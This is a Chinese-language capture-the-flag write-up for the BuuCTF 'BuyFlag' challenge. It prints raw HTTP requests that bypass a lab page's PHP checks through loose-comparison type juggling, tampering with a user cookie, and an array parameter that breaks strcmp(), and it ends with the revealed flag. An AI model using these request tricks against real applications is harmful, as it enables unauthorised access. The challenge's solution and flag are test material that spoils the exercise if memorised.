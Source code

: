 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - Http
---
```


# \[极客大挑战 2019\] BuyFlag

## 前置工作

进入靶机网页，主页没啥有用的，打开右上角 Menu，就能找到 PayFlag 选项，进入即可，此时 URL 为 `/pay.php`，可看到一些有效信息

![](https://p.sda1.dev/13/4f363ef9bae723d54d996280a2600548/image.png)

首先，我得是 CUIT 的学生（反正我不是），其次，我还得有正确的密码

这些都是空话，直接开 F12，往下翻，找到了一段被注释掉的代码，他让我把 `password` 和 `money` 通过 POST 传入，首先就得先把 `password` 的事情解决了

```php
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
```

## 绕过 `password` 判断

直接看有一行 `elseif ($password == 404)`，是个**弱比较**，那太好了，如果我的 `password` = `404A` 也是成立的，此时也正好可以绕过 `is_numeric()` 的判断，此时我的 Http 请求代码如下

```http
POST /pay.php HTTP/1.1
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
Connection: keep-alive
Cookie: user=0
Content-Length: 13

password=404A
```

## 成为 CUITer

一般而言我们 Http 请求的 Cookie 应该是没有的，但这个就很不巧，我注意到上面的 Http 请求 Cookie 中有一个 `user=0`，通常用户鉴权的时候读的也是 Cookie，所以我就把 `user` 改为 `1`，此时我的 Http 请求代码如下

```http
POST /pay.php HTTP/1.1
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
Connection: keep-alive
Cookie: user=1
Content-Length: 13

password=404A
```

看回显，已经快了

```
you are Cuiter
Password Right!
Pay for the flag!!!hacker!!!
```

## 给钱

现在我要做的就是付钱，怎么付？开头那段被注释掉的代码里就告诉我们，要把 `money` POST 进去，那我们就 POST 给他 100000000，请求如下

```http
POST /pay.php HTTP/1.1
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
Connection: keep-alive
Cookie: user=1
Content-Length: 13

password=404A
money=100000000
```

结果回显变成了

```
you are Cuiter
Password Right!
Nember lenth is too long
```

他提示我数字长度太长了，大概率是有个 `strcmp()` 函数在搞鬼，但是攻破这个函数的方法很简单，我只需要传入一个不正常的数据类型给他，他就会崩掉，比如数组，即我把 `money=100000000` 改成 `money[]=a`，再试一遍，此时的 Http 请求代码如下

```http
POST /pay.php HTTP/1.1
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: d2712315-f104-498e-8257-4113e6f4986f.node4.buuoj.cn:81
Connection: keep-alive
Cookie: user=1
Content-Length: 13

password=404A
money[]=a
```

回显中就有了我想要的 Flag

```
you are Cuiter
Password Right!
flag{e7e247ff-8faa-4db2-81e5-ccd961cf7129}
```